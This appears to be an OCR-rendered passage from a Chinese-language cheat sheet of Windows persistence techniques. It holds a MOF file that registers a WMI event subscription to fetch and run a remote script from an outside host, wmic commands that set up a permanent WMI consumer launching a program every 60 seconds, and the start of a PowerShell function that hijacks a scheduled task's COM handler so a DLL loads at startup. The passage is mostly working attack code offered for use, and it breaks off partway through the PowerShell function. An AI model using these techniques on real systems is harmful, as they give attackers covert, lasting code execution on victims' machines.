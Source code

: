 

pragma namespace("\\\\\\\\.\\\\root\\\\subscription") -
instance of \_\_EventFilter as $EventFilter-
{-
EventNamespace = "Root\\\\Cimv2";-
Name = "filtP1";-
Query = "Select \* From \_\_InstanceModificationEvent "-
"Where TargetInstance Isa \\"Win32\_LocalTime\\" "-
"And TargetInstance.Second = 1";-
QueryLanguage = "WQL";-
}; -
instance of ActiveScriptEventConsumer as $Consumer-
{-
Name = "consP1";-
ScriptingEngine = "JScript";-
ScriptText = "GetObject(\\"script:https://host.com/test\\")";-
}; -
instance of \_\_FilterToConsumerBinding-
{-
Consumer = $Consumer;-
Filter = $EventFilter;-
};-

管理员执行：

1-

mofcomp test.mof-

##### 13、[微米](https://3gstudent.github.io/Study-Notes-of-WMI-Persistence-using-wmic.exe)

每隔60秒执行一次notepad.exe



wmic /NAMESPACE:"\\\\root\\subscription" PATH \_\_EventFilter CREATE Name="BotFilter82", EventNameSpace="root\\cimv2",QueryLanguage="WQL", Query="SELECT \* FROM \_\_InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32\_PerfFormattedData\_PerfOS\_System'"-
-
wmic /NAMESPACE:"\\\\root\\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23", ExecutablePath="C:\\Windows\\System32\\notepad.exe",CommandLineTemplate="C:\\Windows\\System32\\notepad.exe"-
-
wmic /NAMESPACE:"\\\\root\\subscription" PATH \_\_FilterToConsumerBinding CREATE Filter="\_\_EventFilter.Name=\\"BotFilter82\\"", Consumer="CommandLineEventConsumer.Name=\\"BotConsumer23\\""-

##### 14、[用户空间持久性与计划任务](https://3gstudent.github.io/Userland-registry-hijacking)

劫持计划任务UserTask，在系统启动时加载dll


function Invoke-ScheduledTaskComHandlerUserTask-
{-
\[CmdletBinding(SupportsShouldProcess = $True, ConfirmImpact = 'Medium')\]-
Param (-
\[Parameter(Mandatory = $True)\]-
\[ValidateNotNullOrEmpty()\]-
\[String\]-
$Command,-
-
\[Switch\]-
$Force-
)-
$ScheduledTaskCommandPath = "HKCU:\\Software\\Classes\\CLSID\\{58fb76b9-ac85-4e55-ac04-427593b1d060}\\InprocServer32"-